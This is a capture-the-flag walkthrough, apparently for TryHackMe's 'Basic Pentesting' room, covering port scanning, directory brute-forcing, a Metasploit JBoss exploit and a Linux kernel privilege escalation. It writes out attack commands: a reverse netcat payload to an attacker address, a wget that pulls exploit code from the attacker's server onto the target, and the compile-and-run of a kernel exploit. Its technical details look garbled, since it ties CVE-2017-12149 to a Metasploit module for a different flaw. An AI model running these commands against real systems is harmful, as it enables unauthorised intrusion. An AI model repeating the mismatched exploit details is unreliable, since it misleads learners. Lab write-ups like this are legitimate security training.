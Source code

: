# TryHackMe: Basic Pentesting Walkthrough

## Room Overview

This walkthrough details the steps taken to successfully complete the 'Basic Pentesting' room on TryHackMe. It covers fundamental penetration testing concepts, including reconnaissance, web application testing, exploitation, and privilege escalation.

- **Difficulty**: Easy
- **Skills Tested**: Network Scanning, Web Enumeration, Directory Bruteforcing, Metasploit Usage, Linux Privilege Escalation.
- **Target IP**: `10.10.10.10` (Example IP, replace with actual room IP)

## Step-by-Step Solution

### 1. Initial Enumeration & Port Scanning

The first step in any penetration test is to understand the target's attack surface. This involves identifying open ports and running services.

```bash
# Perform a comprehensive Nmap scan to identify open ports, services, and versions.
# -sC: Default scripts (basic vulnerability checks, common service enumeration)
# -sV: Version detection (attempts to determine service versions)
# -oA: Output in all formats (Nmap, Grepable, XML)
nmap -sC -sV -oA scans/nmap_initial 10.10.10.10
```

**Scan Results & Analysis:**

- **Port 22/tcp (SSH)**: Open. Service: OpenSSH. This suggests potential for brute-force attacks or credential stuffing if valid usernames are found.
- **Port 80/tcp (HTTP)**: Open. Service: Apache httpd. This indicates a web server is running, which is a common entry point for attacks.
- **Ports 139/tcp, 445/tcp (SMB)**: Open. Service: Samba smbd. SMB (Server Message Block) is often used for file sharing and can sometimes be vulnerable to exploits like EternalBlue or misconfigurations.

*Initial Thoughts*: The web server (Port 80) is usually the most promising avenue for initial access in basic rooms.

### 2. Web Application Enumeration & Directory Bruteforcing

With an HTTP service running, the next logical step is to explore the web application for hidden directories, files, or vulnerabilities.

**Directory Bruteforcing with Gobuster:**

```bash
# Use gobuster to discover hidden directories and files on the web server.
# dir: Directory/file brute-forcing mode
# -u: Target URL
# -w: Wordlist to use for brute-forcing
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt # Add common extensions
```

**Key Findings:**

- **`/development` Directory**: This directory was discovered and contained interesting files, often indicative of developers leaving sensitive information or misconfigured applications.
- **JBOSS Application**: Within the `/development` directory, a JBOSS application was identified. JBOSS (now WildFly) is an application server, and older versions are known to have critical vulnerabilities.

*Vulnerability Identified*: An older version of JBOSS was found, which is susceptible to **CVE-2017-12149** (Deserialization of Untrusted Data in JBoss Application Server). This vulnerability allows for remote code execution.

### 3. Exploitation - Gaining Initial Access (Metasploit)

Leveraging the identified JBOSS vulnerability, we can use Metasploit to gain a shell on the target system.

```bash
# Start Metasploit console
msfconsole

# Search for the relevant exploit module
search jboss deserialization

# Use the identified exploit module
use exploit/multi/http/jboss_invoke_deployment

# Set the target host (RHOSTS)
set RHOSTS 10.10.10.10

# Set the payload (e.g., Meterpreter reverse TCP for a stable shell)
set PAYLOAD cmd/unix/reverse_netcat # Or linux/meterpreter/reverse_tcp
set LHOST <Your_Attacker_IP> # Set your local IP for the reverse connection
set LPORT 4444 # Set a listening port

# Check if the exploit is likely to work (optional but good practice)
check

# Execute the exploit
exploit
```

*Result*: Upon successful exploitation, a low-privileged shell (e.g., `www-data` user) was obtained on the target machine.

### 4. Privilege Escalation - Gaining Root Access

After gaining initial access, the next critical step is to escalate privileges to `root` or `administrator` to gain full control of the system.

**Enumeration on Target System:**

- **Kernel Version Check**: `uname -a` revealed `Linux basic-pentesting 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux`.
- **SUID/SGID Binaries**: `find / -perm -4000 2>/dev/null` or `find / -perm -2000 2>/dev/null`
- **Cron Jobs**: `ls -la /etc/cron*`
- **Writable Directories**: `find / -writable -type d 2>/dev/null`

**Exploiting Linux Kernel Vulnerability:**

Based on the kernel version (`4.4.0-31-generic`), a quick search on `searchsploit` or online exploit databases (e.g., Exploit-DB) revealed a local privilege escalation vulnerability.

```bash
# Search for exploits related to the kernel version
searchsploit Linux Kernel 4.4.0-31

# Example: Copy the exploit to your working directory
cp /usr/share/exploitdb/exploits/linux/local/39772.c .

# Transfer the exploit to the target machine (e.g., using Python SimpleHTTPServer or scp)
# On Attacker: python3 -m http.server 8000
# On Target: wget http://<Attacker_IP>:8000/39772.c

# Compile the exploit on the target machine
gcc 39772.c -o exploit -pthread

# Execute the exploit
./exploit
```

*Result*: The exploit successfully elevated privileges to `root`, granting full control over the system.

## Key Learnings & Takeaways

- **Thorough Enumeration is Paramount**: Don't rush. Detailed Nmap scans, web enumeration (Gobuster), and service version identification are crucial for uncovering attack vectors.
- **Leverage Public Exploits**: Many older systems or applications have publicly known vulnerabilities. Tools like Metasploit and `searchsploit` are invaluable for finding and utilizing these.
- **Importance of Post-Exploitation Enumeration**: Once you get a shell, immediately start enumerating the target system for privilege escalation opportunities (kernel versions, SUID binaries, cron jobs, misconfigurations).
- **Understanding Tool Output**: Learn to interpret the results from tools like Nmap and Gobuster to identify potential weaknesses.
- **Patience and Persistence**: Penetration testing often involves trial and error. Don't get discouraged if an initial approach doesn't work.

## Tools Used in this Walkthrough

- **Nmap**: Network scanner for host discovery, port scanning, service detection, and OS fingerprinting.
- **Gobuster**: Directory/file and subdomain brute-forcing tool for web enumeration.
- **Metasploit Framework**: Comprehensive exploitation framework for developing and executing exploits and managing payloads.
- **Searchsploit**: Command-line tool for searching the Exploit-DB archive for known exploits.
- **GCC**: GNU Compiler Collection, used to compile C/C++ exploits on the target system.
- **Python SimpleHTTPServer**: Used for quickly setting up a web server to transfer files to the target.
